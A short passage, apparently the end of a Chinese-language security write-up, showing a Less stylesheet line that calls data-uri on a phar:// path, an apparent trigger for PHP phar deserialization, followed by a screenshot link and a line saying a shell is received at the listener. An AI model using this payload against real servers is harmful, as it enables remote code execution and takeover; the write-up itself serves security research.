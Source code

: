 ```plain
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

[![](assets/1706846898-7a781acede5728fa713b697b3f93b5ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213929-28771070-c03e-1.png)

在监听处可收到 Shell
